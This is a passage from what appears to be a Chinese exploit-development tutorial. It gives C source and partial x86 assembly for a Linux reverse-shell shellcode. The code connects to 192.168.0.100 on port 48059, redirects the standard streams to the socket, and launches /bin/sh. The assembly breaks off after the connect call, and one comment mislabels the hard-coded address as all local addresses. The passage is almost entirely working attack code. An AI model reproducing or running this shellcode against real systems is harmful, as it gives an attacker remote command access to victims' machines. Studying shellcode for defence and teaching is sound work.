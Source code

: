 [![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
#include<sys/socket.h>   //构造socket所需的库
#include<netinet/in.h>  //定义sockaddr结构
int main()
{
  char *shell[2];       //用于execv调用
  int soc,remote;    //文件描述符句柄
  struct sockaddr_in serv_addr; //保存IP/端口值的结构
 
  serv_addr.sin_addr.s_addr=0x6400A8C0;  //将socket的地址设置为所有本地地址
  serv_addr.sin_port=0xBBBB;  //设置socket的端口48059
  serv_addr.sin_family=2;   //设置协议族：IP
  soc=socket(2,1,0);
  remote=connect(soc,(struct sockaddr *)&serv_addr,0x10);
 
  dup2(soc,0);   //将stdin连接client
  dup2(soc,1);   //将stdout连接client
  dup2(soc,2);   //将strderr连接到client
  shell[0]="/bin/sh";   //execve的第一个参数
  shell[1]=0;           //数组的第二个元素为NULL,表示数组结束
  execv(shell[0],shell,NULL);   //建立一个shell
}
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

#### 2）汇编语言代码

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
section .text
global _start
_start:
xor eax,eax ;清空eax
xor ebx,ebx ;清空ebx
xor edx,edx  ;清空edx
 
;soc=socket(2,1,0)
push eax  ;socket的第三个参数：0
push byte 0x1 ;socket的第二个参数：1
push byte 0x2 ;socket的第一个参数：2
mov ecx,esp ;将数组的地址设置为socketcall的第二个参数
inc bl  ;将socketcall的第一个参数设置为1
mov al,102  ;调用socketcall,分支调用号为1：SYS_SOCKET
int 0x80  ;进入核心态，执行系统调用
mov esi,eax ;将返回值(eax)存储到esi中（即soc句柄）
 
;remote=connect(soc,(struct sockaddr *)&serv_addr,0x10)
push edx; ;仍然为0，用来作为接下来压栈的数据的结束符
push long 0x6400A8C0  ;本节代码中新增，将地址反序得到的十六进制压栈
push word 0xBBBB  ;将端口压栈，十进制为48059
xor ecx,ecx ;清空ecx，以便保存结构的sa_family字段
mov cl,2  ;将ecx的地位字节，设置为2
push word cx  ;建立结构，包括端口和sin.family,共四个字节
mov ecx,esp ;将结构的地址（在栈上）复制到ecx
push byte 0x10  ;connect参数的开始，将16压栈
push ecx  ;在栈上保存结构的地址
push esi  ;将服务器文件描述符esi保存到栈
mov ecx,esp ;将参数数组的地址保存到ecx（socketcall的第二个参数）
mov bl,3  ;将bl设置为3，socketcall的第一个参数
mov al,102  ;调用socketcall，分支调用号为3：SYS_CONNECT
int 0x80  ;进入核心态，执行系统调用
 
```